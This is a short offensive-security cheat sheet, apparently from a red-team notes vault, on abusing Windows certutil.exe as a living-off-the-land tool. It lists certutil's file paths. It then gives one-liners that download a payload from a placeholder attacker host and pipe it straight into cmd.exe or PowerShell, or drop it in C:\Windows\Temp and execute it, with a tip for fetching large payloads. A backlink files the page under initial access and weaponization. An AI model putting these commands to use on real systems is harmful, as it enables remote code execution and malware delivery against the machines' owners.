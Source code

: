 # CertUtil

## 01 - Common Files

```
C:\Windows\System32\certutil.exe
C:\Windows\SysWOW64\certutil.exe
```

## 02 - Execute Payloads

### 2.1 - Fileless Code Execution

```
C:\> certutil.exe -urlcache -f http[s]://<IP>/payload.bat | cmd.exe

C:\> certutil.exe -urlcache -f http[s]://<IP>/payload.cmd | cmd.exe

C:\> certutil.exe -urlcache -f http[s]://<IP>/payload.ps1 | powershell.exe
```

### 2.2 - Dropping On Disk

Download payload and execute it.

```
C:\> certutil.exe -urlcache -f http[s]://<IP>/payload.exe C:\Windows\Temp\payload.exe  & C:\Windows\Temp\payload.exe
```

Download the large payload.

> [!TIP] Downloading Large Payloads
> The `-split` flag is great for downloading a large payload.

```
C:\> certutil.exe -urlcache -split -f http[s]://<IP>/payload.exe C:\Windows\Temp\payload.exe  & C:\Windows\Temp\payload.exe
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Desktop/Windows/Code Execution/Batch]]